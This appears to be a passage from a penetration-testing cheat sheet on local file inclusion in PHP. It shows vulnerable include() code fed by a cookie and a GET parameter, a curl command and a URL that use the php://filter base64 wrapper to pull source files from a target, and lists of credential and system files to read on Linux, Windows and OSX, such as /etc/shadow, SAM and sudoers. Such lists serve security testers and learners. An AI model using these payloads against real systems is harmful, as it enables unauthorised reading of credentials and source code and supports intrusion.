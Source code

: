         <div class="highlight highlight-text-html-php">

        <pre><span class="pl-s1"><span class="pl-k">include</span>(<span class="pl-s"><span class="pl-pds">"</span>lang/<span class="pl-pds">"</span></span><span class="pl-k">.</span><span class="pl-smi">$_COOKIE</span>[<span class="pl-s"><span class="pl-pds">'</span>lang<span class="pl-pds">'</span></span>]);</span> 
        <span class="pl-s1"><span class="pl-k">include</span>(<span class="pl-smi">$_GET</span>[<span class="pl-s"><span class="pl-pds">'</span>page<span class="pl-pds">'</span></span>]<span class="pl-k">.</span><span class="pl-s"><span class="pl-pds">"</span>.php<span class="pl-pds">"</span></span>);</span></pre>

        </div>

    *   LFI - Encode and Decode a file using base64

        <div class="highlight highlight-source-shell">

        <pre>curl -s \
        <span class="pl-s"><span class="pl-pds">"</span>http://<span class="pl-smi">$ip</span>/?page=php://filter/convert.base64-encode/resource=index<span class="pl-pds">"</span></span> \
        <span class="pl-k">|</span> grep -e <span class="pl-s"><span class="pl-pds">'</span>\[^\\ \]\\{40,\\}<span class="pl-pds">'</span></span> <span class="pl-k">|</span> base64 -d</pre>

        </div>

    *   LFI - Download file with base 64 encoding  
        _http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php_

    *   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root

    *   LFI Windows Files:  
        %SYSTEMROOT%\repair\system  
        %SYSTEMROOT%\repair\SAM  
        %SYSTEMROOT%\repair\SAM  
        %WINDIR%\win.ini  
        %SYSTEMDRIVE%\boot.ini  
        %WINDIR%\Panther\sysprep.inf  
        %WINDIR%\system32\config\AppEvent.Evt

    *   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf
